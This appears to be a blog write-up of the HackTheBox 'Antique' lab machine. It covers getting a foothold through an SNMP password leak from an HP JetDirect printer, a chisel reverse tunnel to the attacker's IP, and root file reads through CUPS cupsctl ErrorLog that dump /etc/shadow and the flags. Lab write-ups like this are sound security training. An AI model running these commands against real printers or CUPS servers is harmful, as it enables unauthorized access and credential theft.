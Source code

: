 ```yaml
---
title: Antique writeup
date: 2022-06-17 12:00:00 +0200
categories: [Writeup, HackTheBox]
tags: [HackTheBox, Writeup, Easy-box]
img_path: /assets/img/antique/
toc: true
image:
  src: Antique.png
  width: 1000   # in pixels
  height: 400   # in pixel
---
```

## Summary
This box is centered around exploiting a misconfigured HP JetDirect printer via snmp. It also covers port forwarding an exploiting the [CUPS](https://en.wikipedia.org/wiki/CUPS) service, which is a modular printing service for Unix-like computer systems. Let's take a look!

## Foothold
starting an nmap scan, we see a telnet service on port 23. It says something about HP jetdirect when trying to connect to it via telnet.

we also do a UDP scan on the address, with the -sU tag. This takes a while

The only port open and unfiltered besides telnet is 161/udp:
```console 
# Nmap 7.92 scan initiated Sat Jun 11 00:39:54 2022 as: nmap -sU -sC -sV -o nmap/udp.txt 10.129.71.148
Nmap scan report for 10.129.71.148
Host is up (0.025s latency).
Not shown: 997 closed udp ports (port-unreach)
PORT      STATE         SERVICE VERSION
68/udp    open|filtered dhcpc
161/udp   open          snmp    SNMPv1 server (public)
40441/udp open|filtered unknown

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun 11 00:59:53 2022 -- 1 IP address (1 host up) scanned in 1198.94 seconds
```

running `snmpwalk -v 1 -c public $IP` reveals its a printer named HTB Printer. Since the only available entrypoint seems to be this printer, we better find out how to exploit it. [This](http://www.irongeek.com/i.php?page=security/networkprinterhacking) blogpost goes into a lot of detail on how exploit a HP jetdicrect printer which has not been configured correctly. Basically, if the right string is sent to the printer it will respond with its own password.

This can be exploited with the following command:
```console
snmpwalk -v 1 -c public .1.3.6.1.4.1.11.2.3.9.1.1.13.0
```
This returns some hexcodes. decoding this shows a password:
P@ssw0rd@123!!123

Log in to the telnet service with this password

Once logged in to the telnet service, the `exec id` command can be used to find who we are connected as. We can see that we are the user lp, within the lpadmin group. To get a reverse shell, simply prepend exec to any reverse shell payload you want to use. Most should work.

userflag:f48580e6c8557d0426e3413517504121

## Privilege escalation
we run `ss --tulnp` and get the following:

```console
lp@antique:~$ ss -tulnp
ss -tulnp
Netid   State    Recv-Q   Send-Q     Local Address:Port     Peer Address:Port   Process                                                                         
udp     UNCONN   0        0                0.0.0.0:68            0.0.0.0:*                                                                                      
udp     UNCONN   0        0                0.0.0.0:161           0.0.0.0:*                                                                                      
tcp     LISTEN   0        128              0.0.0.0:23            0.0.0.0:*       users:(("python3",pid=1150,fd=3))                                              
tcp     LISTEN   0        4096           127.0.0.1:631           0.0.0.0:*                                                                                      
tcp     LISTEN   0        4096               [::1]:631              [::]:*                                                                                      
lp@antique:~$ 
```
the interesting part of this output is that the machine is listening on port 631 since this port did not show up on our scans.
I will use chisel to set up a listening port on my machine which i can then use to communicate with port 631 on the target machine

on the attacker machine we run the following command: `./chisel server --reverse -p 8000`

on the victim machine: `./chisel client 10.10.17.182:8000 R:8001:127.0.0.1:631`


output of chisel server once connection has been esablished:
```console
./chisel server --reverse -p 8000
2022/06/11 01:27:02 server: Reverse tunnelling enabled
2022/06/11 01:27:02 server: Fingerprint gV7xDnh1btaUqoCrX8/mA9qgIZzsnrA2m1TEsRKLmO0=
2022/06/11 01:27:02 server: Listening on http://0.0.0.0:8000
2022/06/11 01:30:19 server: session#1: tun: proxy#R:8001=>631: Listening
```
when visiting localhost:8001 in our browser we get greeted with the following page
![Cups service landing page](port631.png){: width="972" height="589" }

searching for exploits in cups 1.6.1 leads us to the following link <https://www.rapid7.com/db/modules/post/multi/escalate/cups_root_file_read/>

We can read files as root through the error log page on cups through the error log path.

To change the path we need to use cupsctl. See below

```console
p@antique:~$ cupsctl 'ErrorLog'=/etc/shadow
cupsctl 'ErrorLog'=/etc/shadow
lp@antique:~$ curl http://localhost:631/admin/log/error_log?
curl http://localhost:631/admin/log/error_log?
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   999  100   999    0     0   975k      0 --:--:-- --:--:-- --:--:--  975k
root:$6$UgdyXjp3KC.86MSD$sMLE6Yo9Wwt636DSE2Jhd9M5hvWoy6btMs.oYtGQp7x4iDRlGCGJg8Ge9NO84P5lzjHN1WViD3jqX/VMw4LiR.:18760:0:99999:7:::
daemon:*:18375:0:99999:7:::
---SNIP---
pollinate:*:18375:0:99999:7:::
systemd-coredump:!!:18389::::::
lxd:!:18389::::::
usbmux:*:18891:0:99999:7:::
```

We can of course crack the root hash and login as root, however we can also just change the error log path to /root/root.txt and read the root flag:

```console
lp@antique:~$ cupsctl "ErrorLog"=/root/root.txt
cupsctl "ErrorLog"=/root/root.txt
lp@antique:~$ curl http://localhost:631/admin/log/error_log?
curl http://localhost:631/admin/log/error_log?
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    33  100    33    0     0  33000      0 --:--:-- --:--:-- --:--:-- 33000
41a5b5db9f352acb5da454924de84bea
lp@antique:~$ 
```